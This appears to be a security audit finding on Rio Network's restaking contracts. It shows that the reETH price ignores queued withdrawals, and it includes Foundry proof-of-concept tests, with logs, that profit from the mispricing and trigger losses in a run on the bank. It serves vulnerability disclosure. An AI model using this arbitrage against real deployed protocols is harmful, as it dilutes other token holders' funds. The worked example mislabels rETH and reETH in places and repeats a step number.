 Gorgeous Basil Locust

high

# Restaking tokens are not priced correctly when there are withdrawals queued

## Summary

When there are withdrawals queued, the price of the restaking token (reETH) might not reflect its actual value. This can be arbitraged by users by minting reETH at a discount when it is undervalued and redeeming it at a premium when it is overvalued.

## Vulnerability Detail

To understand the vulnerability it is required to understand how the reETH price is calculated in terms of the unit of account (ETH) and how the withdrawals are processed.

### reETH price calculation

As described in the [documentation](https://docs.rio.network/rio-network/liquid-restaking-tokens/restaked-eth-reeth#pricing), "_the share price of reETH is determined by the total amount of ETH held by the vault, deployed to EigenLayer, and the pending rewards as determined by the feeds of oracles divided by the total supply of reETH_". This is implemented in [`RioLRTCoordinator.convertToUnitOfAccountFromRestakingTokens`](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L175-L183).

The calculation of the TVL is done in [`RioLRTAssetRegistry.getTVL`](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L70-L75) by summing the TVL of all supported assets.

To obtain the TVL of an asset, its [total balance is calculated ](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L80) and then [converted to the unit of account](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L84C16-L84C47) by [multiplying the balance by the oracle price](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTAssetRegistry.sol#L188-L195).

### Withdrawals

The withdrawal starts with the user calling [`RioLRTCoordinator.requestWithdrawal`](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L99-L116). This function pulls `amountIn` tokens of `asset` from the user and credits him with an equivalent amount of EigenLayer shares.

The withdrawal is processed when [`RioLRTCoordinator.rebalance`](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L121-L151) is called. This function can be called once every 24 hours and processes all pending withdrawals for a certain asset. It [tries to pull](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L247-L251) the amount of the `asset` from `RioLRTDepositPool` to cover the pending withdrawals. If this amount is enough, the epoch is settled and the users can claim their tokens. Otherwise, a withdrawal from EigenLayer is queued to cover the difference. This withdrawal can be completed after 7 days.

The relevant part here is that the `reETH` tokens pulled from the users on the withdrawal request are **only burned when the assets for withdrawal are available** in `RioLRTWithdrawalQueue`. This can happen when `RioLRTCoordinator.rebalance` is called and there are enough assets in `RioLRTDepositPool` to cover the withdrawals either [partially](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTWithdrawalQueue.sol#L200) or [completely](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTWithdrawalQueue.sol#L165), or after 7 days [when the withdrawal from EigenLayer is completed](https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTWithdrawalQueue.sol#L165).

### Vulnerability

The issue stems from the fact that between the time the user requests a withdrawal and the time the `reETH` tokens are burned, the calculation of the `reETH` price does not reflect its actual value. This is because the TVL of the assets is calculated at current oracle price, while the conversion rate of the assets to be withdrawn in exchange for `reETH` burned is calculated at the time of the withdrawal request. Let's illustrate this with an example:

1. Alice deposits 1 cbETH (current price 1 ETH) and receives 1 reETH.

2. Bob deposits 1 rETH (current price 1 ETH) and receives 1 reETH.
    
    `rETH price = (1 cbETH * 1 ETH/cbETH + 1 rETH * 1 ETH/rETH) / 2 reETH = 1 ETH`

3. Alice requests to withdraw her reETH in cbETH.

4. Assuming a 1:1 conversion rate for cbETH to EigenLayer shares, Alice is owed 1 share, equivalent to 1 cbETH.

5. The cbETH price drops to 0.5 ETH.

    `reETH price = (1 cbETH * 0.5 ETH/cbETH + 1 rETH * 1 ETH/rETH) / 2 reETH = 0.75 ETH`

5. Charlie realizes that the current reETH price is not accounting for the fact that Alice has queued a withdrawal and 1 rETH will be burned in exchange for 1 cbETH and she will absorb the reduction in the TVL by incurring a loss of 0.5 ETH. So the real real price of reETH should be:

    `reETH price = (1 rETH * 1 ETH/rETH) / 1 reETH = 1 ETH`

6. Charlie deposits 15 rETH just before rebalance is called and receives 20 reETH.

    `output reETH = (15 rETH * 1 ETH/rETH) / 0.75 ETH/reETH = 20 reETH`

    `rETH price = (1 cbETH * 0.5 ETH/cbETH + 16 rETH * 1 ETH/rETH) / 22 reETH = 0.75 ETH`

7. Rebalance is called, so 1 reETH is burned and 1 cbETH is available for Alice to withdraw.

    `rETH price = (16 rETH * 1 ETH/rETH) / 21 reETH = 0.7619 ETH`

    `Bob's position = 1 rETH * 0.762 ETH/reETH = 0.7619 ETH`

    `Charlie's position = 20 rETH * 0.762 ETH/reETH = 15.238 ETH`

8. The arbitrager has managed to make a profit of 0.238 ETH by buying rETH at a discount. This profit is made at the expense of diluting the value of the rest of the reETH holders. In this case, Bob's 1 rETH is now worth 0.762 ETH.

The opposite can also happen. If the price of an asset increases after a withdrawal request, `reETH` price will be overvalued, which will lead to `reETH` holders queuing withdrawals to take advantage of the price divergence, while there will not be enough assets to cover the withdrawals.

While it is not likely to have price changes as drastic as in the example (just used for simplicity), it is yet likely to have episodes of high volatility in LST tokens, as was the case in May 2022 with the stETH price, that registered changes of 5% in a single day.

## Impact

The price of `reETH` can be arbitraged by users when there are withdrawals queued. This can lead to a dilution of the value of the rest of the `reETH` holders and a massive redemption of `reETH` tokens that can lead to a run on the bank.

## Code Snippet

https://github.com/sherlock-audit/2024-02-rio-network-core-protocol/blob/main/rio-sherlock-audit/contracts/restaking/RioLRTCoordinator.sol#L175-L183

## Proof of concept

<details>

<summary>Setup</summary>

- Add this util function in `test/utils/MockPriceFeed.sol`:

```solidity
    function setPrice(uint256 price) external {
        _price = price;
    }
```

- Add the following code in `test/RioLRTCoordinator.t.sol`:

```diff
+ import {MockPriceFeed} from 'test/utils/MockPriceFeed.sol';
+ import "forge-std/console2.sol";

  contract RioLRTCoordinatorTest is RioDeployer {
      TestLRTDeployment public reETH;
      TestLRTDeployment public reLST;
    
+     address alice = makeAddr("alice");
+     address bob = makeAddr("bob");
+     address charlie = makeAddr("charlie");
+     MockPriceFeed cbEthPriceFeed;
+     MockPriceFeed rEthPriceFeed;

      function setUp() public {
```

- Add the code snippets of the tests below to the contract `RioLRTCoordinatorTest`.

</details>

<details>

<summary>Test arbitrage</summary>

```solidity
function test_arbitrage() public {
    uint256 cbEthAmount = 10e18;
    uint256 rEthAmount = 10e18;
    uint256 initialREthBalanceCharlie = rETH.balanceOf(charlie);

    // 1. Alice and Bob deposit each the equivalent of 10 ETH in LSTs
    vm.startPrank(alice);
    cbETH.approve(address(reLST.coordinator), cbEthAmount);
    uint256 reEthAlice = reLST.coordinator.deposit(CBETH_ADDRESS, cbEthAmount);
    console2.log("Alice receives reETH:   %s", reEthAlice);
    vm.stopPrank();

    vm.startPrank(bob);
    rETH.approve(address(reLST.coordinator), rEthAmount);
    uint256 reEthBob = reLST.coordinator.deposit(RETH_ADDRESS, rEthAmount);
    console2.log("Bob receives reETH:     %s", reEthBob);
    vm.stopPrank();

    // 2. Alice requests withdrawal of half her reETH in cbETH
    vm.prank(alice);
    reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, reEthAlice / 2);

    // 3. cbETH price decreases
    cbEthPriceFeed.setPrice(0.5e18);
    console2.log("reETH price before:     %s", reLST.coordinator.convertToUnitOfAccountFromRestakingTokens(1e18));

    // 4. Charlie arbitrages the discrepancy between reETH price and its real value
    vm.startPrank(charlie);
    rETH.approve(address(reLST.coordinator), rEthAmount);
    uint256 reEthCharlie = reLST.coordinator.deposit(RETH_ADDRESS, 10e18);
    console2.log("Charlie receives reETH: %s", reEthCharlie);
    vm.stopPrank();

    // 5. Rebalance cbETH happens and Alice's withdrawal is processed, which increases the price of reETH,
    //    reflecting now the real value of the asset
    vm.prank(EOA, EOA);
    reLST.coordinator.rebalance(CBETH_ADDRESS);
    console2.log("reETH price after:      %s", reLST.coordinator.convertToUnitOfAccountFromRestakingTokens(1e18));

    // 6. Charlie requests withdrawal of all his reETH in rETH
    vm.prank(charlie);
    reLST.coordinator.requestWithdrawal(RETH_ADDRESS, reEthCharlie);

    // 7. Rebalance rETH happens and Charlie's withdrawal is processed
    vm.prank(EOA, EOA);
    reLST.coordinator.rebalance(RETH_ADDRESS);

    // 8. Charlie claims his withdrawal
    vm.prank(charlie);
    reLST.withdrawalQueue.claimWithdrawalsForEpoch(
        IRioLRTWithdrawalQueue.ClaimRequest({asset: RETH_ADDRESS, epoch: 0})
    );
    uint256 finalREthBalanceCharlie = rETH.balanceOf(charlie);

    console2.log("Charlie's profit rETH:  %s", finalREthBalanceCharlie - initialREthBalanceCharlie);
}
```

Console output:

```js
$ forge test --mt test_arbitrage -vv

Ran 1 test for test/RioLRTCoordinator.t.sol:RioLRTCoordinatorTest
[PASS] test_arbitrage() (gas: 1512529)
Logs:
  Alice receives reETH:   10961000000000000000
  Bob receives reETH:     10961000000000000000
  reETH price before:     684358122006417646
  Charlie receives reETH: 14612232511658894070
  reETH price after:      724616838455263337
  Charlie profit rETH:    588269725371479696

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 17.32ms
```

</details>

<details>

<summary>Test run on the bank</summary>

```solidity
function test_runOnTheBank() public {
    uint256 cbEthAmount = 10e18;
    uint256 rEthAmount = 10e18;
    uint256 initialREthBalanceBob = rETH.balanceOf(bob);
    uint256 initialREthBalanceCharlie = rETH.balanceOf(charlie);

    // 1. Alice, Bob and Charlie deposit each the equivalent of 10 ETH in LSTs
    vm.startPrank(alice);
    cbETH.approve(address(reLST.coordinator), cbEthAmount);
    uint256 reEthAlice = reLST.coordinator.deposit(CBETH_ADDRESS, cbEthAmount);
    vm.stopPrank();
    console2.log("Alice receives reETH:   %s", reEthAlice);

    vm.startPrank(bob);
    rETH.approve(address(reLST.coordinator), rEthAmount);
    uint256 reEthBob = reLST.coordinator.deposit(RETH_ADDRESS, rEthAmount);
    vm.stopPrank();
    console2.log("Bob receives reETH:     %s", reEthBob);

    vm.startPrank(charlie);
    rETH.approve(address(reLST.coordinator), rEthAmount);
    uint256 reEthCharlie = reLST.coordinator.deposit(RETH_ADDRESS, rEthAmount);
    vm.stopPrank();
    console2.log("Charlie receives reETH: %s", reEthCharlie);

    // 2. cbETH price decreases
    cbEthPriceFeed.setPrice(0.5e18);

    // 3. Alice requests withdrawal of half her reETH in cbETH
    vm.prank(alice);
    reLST.coordinator.requestWithdrawal(CBETH_ADDRESS, reEthAlice / 2);

    // 4. cbETH price recovers
    cbEthPriceFeed.setPrice(1e18);
    console2.log("reETH price before:     %s", reLST.coordinator.convertToUnitOfAccountFromRestakingTokens(1e18));

    // 5. Charlie realizes the reETH price is overvalued and requests withdraw for all his reETH
    //    in rETH before Alice's withdrawal is processed
    vm.prank(charlie);
    reLST.coordinator.requestWithdrawal(RETH_ADDRESS, reEthCharlie);

    // 6. Rebalance cbETH happens and Alice withdrawal is processed, which increases the price of reETH,
    //    reflecting now the real value of the asset
    vm.prank(EOA, EOA);
    reLST.coordinator.rebalance(CBETH_ADDRESS);
    console2.log("reETH price after:      %s", reLST.coordinator.convertToUnitOfAccountFromRestakingTokens(1e18));

    // 7. Bob requests withdrawal of all his reETH in rETH after Alice's withdrawal is processed
    vm.prank(bob);
    reLST.coordinator.requestWithdrawal(RETH_ADDRESS, reEthBob);

    // 8. Rebalance rETH happens and Bob's and Charlie's withdrawals are processed
    vm.prank(EOA, EOA);
    reLST.coordinator.rebalance(RETH_ADDRESS);

    // 9. Bob and Charlie claim their withdrawals
    vm.prank(bob);
    reLST.withdrawalQueue.claimWithdrawalsForEpoch(
        IRioLRTWithdrawalQueue.ClaimRequest({asset: RETH_ADDRESS, epoch: 0})
    );
    vm.prank(charlie);
    reLST.withdrawalQueue.claimWithdrawalsForEpoch(
        IRioLRTWithdrawalQueue.ClaimRequest({asset: RETH_ADDRESS, epoch: 0})
    );

    uint256 finalREthBalanceBob = rETH.balanceOf(bob);
    uint256 finalREthBalanceCharlie = rETH.balanceOf(charlie);

    console2.log("Bob loss rETH:          %s", initialREthBalanceBob - finalREthBalanceBob);
    console2.log("Charlie loss rETH:      %s", initialREthBalanceCharlie - finalREthBalanceCharlie);
}
```

Console output:

```js
$ forge test --mt test_runOnTheBank -vv

Ran 1 test for test/RioLRTCoordinator.t.sol:RioLRTCoordinatorTest
[PASS] test_runOnTheBank() (gas: 1584021)
Logs:
  Alice receives reETH:   10961000000000000000
  Bob receives reETH:     10961000000000000000
  Charlie receives reETH: 10961000000000000000
  reETH price before:     912325517744731320
  reETH price after:      790710494243488207
  Bob loss rETH:          1333022272597125761
  Charlie loss rETH:      0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 19.06ms
```

</details>

## Tool used

Manual Review

## Recommendation

Adjust the calculation of the reETH exchange rate not taking into account the assets and restaking tokens that are queued for withdrawal.
